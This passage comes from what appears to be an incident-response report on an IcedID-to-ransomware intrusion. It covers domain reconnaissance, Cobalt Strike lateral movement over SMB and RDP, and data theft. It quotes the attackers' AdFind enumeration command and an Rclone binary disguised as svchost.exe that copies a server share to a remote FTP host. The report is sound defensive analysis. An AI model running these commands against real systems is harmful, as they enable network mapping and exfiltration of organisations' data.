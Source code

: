 
![](https://thedfirreport.com/wp-content/uploads/2021/03/3-5.png)



```
cmd.exe /C adfind.exe -f objectcategory=computer -csv name cn OperatingSystem dNSHostName > some.csv
```

### Lateral Movement


For lateral movement, the threat actors used various techniques across the domain, one method being Cobalt Strike.


![](https://thedfirreport.com/wp-content/uploads/2021/03/Cobalt-Strike-Lateral-Movement.png)


Cobalt Strike Beacon executables were transferred using SMB and executed via a remote service.


[![](https://thedfirreport.com/wp-content/uploads/2021/03/icedid06.png)](https://thedfirreport.com/wp-content/uploads/2021/03/icedid06.png)


[![](https://thedfirreport.com/wp-content/uploads/2021/03/icedid05.png)](https://thedfirreport.com/wp-content/uploads/2021/03/icedid05.png)


![](https://thedfirreport.com/wp-content/uploads/2021/03/1-2.png)


On other systems, PowerShell was used with the same remote service execution.


[![](https://thedfirreport.com/wp-content/uploads/2021/03/icedid07.png)](https://thedfirreport.com/wp-content/uploads/2021/03/icedid07.png)


To facilitate the final ransomware deployment, RDP connections were initiated from a domain controller as well as a secondary server in the environment.


### Collection


The [Rclone](https://rclone.org/) utility was used to collect information from file shares and to exfiltrate the data.



```
 svchost.exe --config svchost.conf --progress --no-check-certificate copy "\\ServerName\C$\ShareName" ftp1:/DomainName/FILES/C/ShareName
```

![](https://thedfirreport.com/wp-content/uploads/2021/03/55-1.png)


### Command and Control
